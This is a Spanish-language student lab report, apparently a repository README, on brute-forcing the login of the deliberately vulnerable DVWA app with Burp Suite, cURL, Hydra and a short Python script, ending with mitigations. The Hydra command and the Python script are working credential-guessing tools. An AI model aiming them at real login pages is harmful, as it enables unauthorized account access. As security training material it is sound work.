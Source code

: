 # Informe Laboratorio 2 – DVWA (Damn Vulnerable Web App)

**Autor:** Felipe Cuevas  
**Sección:** x  
**Fecha:** Septiembre 2025  
**Correo:** felipe.cuevas1@mail.udp.cl

---

## Descripción del laboratorio

En este laboratorio se realizaron pruebas de seguridad web sobre la aplicación vulnerable **DVWA**, específicamente sobre el módulo de **Brute Force**. Las herramientas empleadas fueron:

- Docker (para desplegar DVWA)  
- Burp Suite (proxy y ataque de fuerza bruta)  
- cURL (accesos válidos e inválidos)  
- Hydra (ataque de fuerza bruta automático)  
- Python (`requests`) para script de fuerza bruta  

Se obtuvieron resultados en forma de credenciales válidas, análisis de tráfico y comparación de herramientas.

---

## Contenido del repositorio

```
/actividades/
  ├─ levantamiento.png
  ├─ redireccion.png
  ├─ consultaproxy.png
  ├─ campos2.3.png
  ├─ prompt.png
  ├─ usuariosdiccionario.png
  ├─ passworddiccionario.png
  ├─ par1.png
  ├─ par1v2.png
  ├─ par1response.png
  ├─ par2.png
  ├─ par2v2.png
  ├─ par2response.png
  ├─ login.png
  ├─ php.png
  ├─ usodecurl.png
  ├─ welcome.png
  ├─ accesoinvalido.png
  ├─ lengthinvalido.png
  ├─ Lengthvalida.png
  ├─ hydracredencialn1.png
  ├─ gordonb.png
  ├─ hydracredencialn2.png
  └─ 1337.png

Docker-compose.yml  
usuarios.txt  
passwords.txt  
hydra_results.txt  
acceso_valido_low.txt  
acceso_invalido_low.txt  
script_bruteforce.py
```

---

## Procedimiento resumido

### 1. Despliegue de DVWA con Docker

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
sudo docker-compose up -d
sudo docker ps
```

- Contenedores: `db` (MySQL) y `dvwa` (Apache + PHP)  
- Acceso: [http://localhost:4280](http://localhost:4280)  

![Levantamiento de DVWA](actividades/levantamiento.png)

---

### 2. Obtención de consultas con Burp Suite

- Configuración de proxy y navegador  
- Captura de petición GET al formulario de login  
- Identificación de campos: `username` y `password`  
- Generación de diccionarios con IA  
- Ejecución de ataque Intruder → obtención de pares válidos:

| Usuario | Contraseña |
|---------|------------|
| 1337    | Charley    |
| pablo   | letmein    |

![Consulta proxy](actividades/consultaproxy.png)

---

### 3. Accesos válidos e inválidos con cURL

```bash
curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=letmein&Login=Login" > acceso_valido_low.txt

curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=pablito&Login=Login" > acceso_invalido_low.txt
```

Diferencias clave entre respuestas:

- Mensaje de autenticación  
- Imagen de perfil del usuario  
- Tamaño del contenido (Content-Length)  
- Inclusión del nombre de usuario en HTML  

![Acceso válido](actividades/Lengthvalida.png)  
![Acceso inválido](actividades/lengthinvalido.png)

---

### 4. Ataque de fuerza bruta con Hydra

```bash
hydra -L usuarios.txt -P passwords.txt localhost http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low;PHPSESSID=<ID>:F=Username and/or password incorrect" \
-V -s 4280 -o hydra_results.txt
```

Credenciales obtenidas:

| Usuario  | Contraseña |
|----------|------------|
| gordonb  | abc123     |
| 1337     | charley    |

![Hydra credenciales](actividades/hydracredencialn1.png)

---

### 5. Script de fuerza bruta en Python

- Librería: `requests`  
- Itera sobre listas de usuarios y contraseñas  
- Mantiene sesión con cabecera `Cookie`  
- Detecta respuestas válidas comparando contenido HTML  

```python
import requests

url = "http://localhost:4280/vulnerabilities/brute/"
cookies = {"security":"low","PHPSESSID":"<ID>"}
usuarios = ["1337", "pablo"]
passwords = ["charley", "letmein"]

for u in usuarios:
    for p in passwords:
        r = requests.get(url, params={"username":u,"password":p,"Login":"Login"}, cookies=cookies)
        if "Welcome" in r.text:
            print(f"Usuario: {u}, Contraseña: {p}")
```

---

### 6. Comparación de herramientas

| Herramienta | Ventajas | Desventajas |
|------------|----------|-------------|
| Burp Suite | Preciso, analiza tráfico, permite modificar peticiones | Lento en ataques masivos |
| cURL       | Rápido, control manual | Laborioso para pruebas múltiples |
| Hydra      | Muy rápido, ataques concurrentes | Detectable por WAF, menos control |
| Python     | Flexible, personalizable | Rendimiento intermedio |

---

## Métodos de mitigación de fuerza bruta

1. Limitación de intentos de login  
2. Captchas o validaciones humanas  
3. Bloqueo temporal de cuentas tras múltiples fallos  
4. Uso de autenticación multifactor (2FA)

---

## Referencias

- DVWA: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)  
- Burp Suite Community: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)  
- Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
